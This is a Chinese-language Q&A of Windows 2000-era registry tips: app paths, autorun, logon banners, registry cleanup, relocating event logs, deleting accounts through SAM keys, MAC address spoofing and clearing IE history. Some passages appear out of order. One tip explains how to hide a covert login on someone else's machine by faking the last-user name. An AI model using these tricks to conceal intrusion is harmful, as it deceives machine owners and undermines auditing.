

图9

到这里，应该知道了吧，在 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\AppPaths` 下的这些主键名对应的程序，都是可以直接在运行对话框中运行的。这就是我要说的了，不知道对大家是否有帮助。

这时候，再到“开始－运行”中输入 `dos`，回车，呵呵，出来了，就是 F 盘下的 `dos.exe`。

> ☹ 能不能隐藏我上次登录 Win2k 时候使用的用户名呢？

☺ 可以的，来到注册表如下位置：

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon`（图11）

### 小提示

我们再来到 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\AppPaths` 下，会发现下面主键的名字都是 `*.exe` 这种格式。再随便点开一个，看看右边窗口里默认值的数据内容。例如，我这里点选的是 `CONF.EXE` 主键，右边窗口的默认值数据则指明了路径为 `D:\Program Files\NetMeeting\conf.exe`（图10）。



图11

大家注意这些了么？在你的“开始－运行”菜单里键入 `conf.exe` 看看，出来了什么？

## Windows 2000/xp/2003 的服务及注册表常见问题

右边窗口中找到 `DontDisplayLastUserName`，改其值为 `1` 即可。

Win2k 中有什么办法可以让 CD-ROM 不自动读盘吗？

注册表如下位置：`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Cdrom`

设置 `AutoRun` 的值为 `0` 就可以禁止自动读盘了。

> 小提示：还是这个位置，`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon` 右边窗口中有一个 `DefaultUserName`（图12），它的数据就是最近一次登录时的用户名了。所以，我们可以通过这个地方来伪装上次登录的用户名。



图12

另外，如果我们偷偷地以另外一个用户的身份从本地进入主机的话，那么下次开机时用户名会显示我们登录时使用的用户名，必将引起机主怀疑。因此，临走前把这里改为机主常用的用户名，下次开机时就不会显示你使用的用户名了。

Win2k Svr 登录的时候在按 `Ctrl+Alt+Del` 处的对话框能否修改？

这个是改不了的，但是我们却可以让你在按完组合键后输入密码前跳出一个欢迎框。方法如下：注册表位置 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon`，将 `LegalNoticeText` 的值改为需要的内容，例如改为“欢迎”等等。如果还想改变对话框的标题，可以将 `LegalNoticeCaption` 的值改为需要的内容。

我用的是 Win2k，能不能手动对我的注册表优化一下？

可以手动对你的注册表来次“减肥”，有以下几条，可以参考一下：

- 1. 精简键盘布局：一般我们都使用标准键盘，因此其他多余的键盘布局可以删除：  
  `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Keyboard Layouts`  
  保留 `00000409`、`00000809` 和 `00020409` 几个主键以及需要的输入法主键，其他删除即可。  
  至于如何查看哪些应该保留，可以通过查看主键下的键值（右窗口中的内容），就可以知道这些主键都对应了什么东西（图13）。



图13

- 2. 精简区域设置：  
  `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Nls\Locale`  
  右边窗口中，只需要保留 `00000409`、`00000804` 和 `00000809`，其他删除即可。

- 3. 删除时区设置：  
  `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Time Zones`



图14

通过查看内容可以判断地区（图14），找到“北京时间”，保留它，其他都删除就可以了（如果你非要留着菲律宾的时间不删也无所谓，我不反对）。

- 4. 删除多余的鼠标外观方案：  
  `HKEY_CURRENT_USER\Control Panel\Appearance\Schemes`  
  以及这个位置：  
  `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Control Panel\Cursors\Schemes`  
  右边窗口中显示的全都是 Win2k 的鼠标外观方案，选择性删除即可。

- 5. 清除无效的反安装信息：  
  `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall`  
  这里存储着反安装信息，将那些已经卸载但仍在这里的软件信息删掉即可。

通过以上清除，注册表的大小基本上能得到一定改善了。

> 日志的存放位置可以修改吗？

可以的，修改注册表可以实现。应用程序日志、安全日志、系统日志等等这些日志，在这个位置修改：  
`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Eventlog`

下面有三个键，分别为 `Application`、`Security`、`System`（如果是 Win2k Svr 的话会更多）。点选其中一个，例如 `Application`，右边窗口中找到 `File` 值，它的数据便是应用程序日志的存放位置（图15），默认值为 `%SystemRoot%\system32\config\AppEvent.Evt`。这里，我修改它的值为 `%SystemRoot%\only_test\AppEvent.Evt`，然后到“控制面板－管理工具－事件查看器”中，右键“应用程序日志”，选择“属性”，在这里可以看到该日志的记录位置。可以看到，这里的位置也变成了 `D:\WINNT\only_test\AppEvent.Evt`（图16），看来位置修改成功了。



图15

其他日志的位置也这样修改就可以了。



图16

Schedule 服务日志的修改：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\SchedulingAgent
```

在右边窗口中有值 `LogPath`，修改它的数据就可以了（图17）。



图17

如何使用注册表删除 Win2k 的用户或者组？

嘿嘿……注册表里，如果是想删除用户的话，到这个位置：

```
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Users\Names
```

在这里可以看到用户名。例如，我这里要删除机器上一个名为 `test` 的用户。在这里删除名为 `test` 的用户，先不要着急删除，要先查看 `test` 用户主键下默认键值的类型，这里它的类型为 `0x403`（图18）。这时候，可以删掉以 `test` 命名的这个主键了。



图18

这时候还没有完成，到这个位置：

`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Users`

就是删除 `test` 的上一层位置，找到以 `403` 结尾的主键（图19），删掉这个主键。这时候再用 `net user` 命令或到计算机管理中查看一下，可以发现用户 `test` 已经不存在了。



图19

如果是删除组的话，就要到这里：

`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Builtin\Aliases\Names`

在这里，结构和方法与删除用户处相似，也是在这里查看组名，然后记住类型，再找到以该值结尾的主键，删除即可（图20）。



图20

> ☹ 我记得 Win2k 下通过修改注册表就可以修改 MAC 地址，是吗？

☺ 是的，可以做到。来到注册表如下位置：

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Class\`

在这下面手动查找主键，同时观察右边窗口中的“默认”值里的说明，找到说明为“网卡”的那一项（图21）。


图21



图22

找到这个主键后，展开它，在下面出现 `000`、`001`、`002`……这些主键，再继续手动查找，同时注意右边窗口中的 `DriverDesc` 数据。当这个值的数据为你的网卡型号时（以我的 PC 为例，我的网卡是 `Intel(R) PRO/100 VE Network Connection`），就停住，这就是我们要找的了（图22）。

就在该主键下的右边窗口中，新建一个字符串值，名为 `NetworkAddress`，然后给这个值赋值为你想要的 MAC 地址就可以了。最后，记得重新启动计算机。

😮 我的 IE 地址列表太多了，可以清除吗？

🙂 可以的，进入到注册表如下位置：  
`HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\TypedURLs`  
右边窗口中的地址便是 IE 的网址列表，看哪个不爽就删哪个了（图23）。

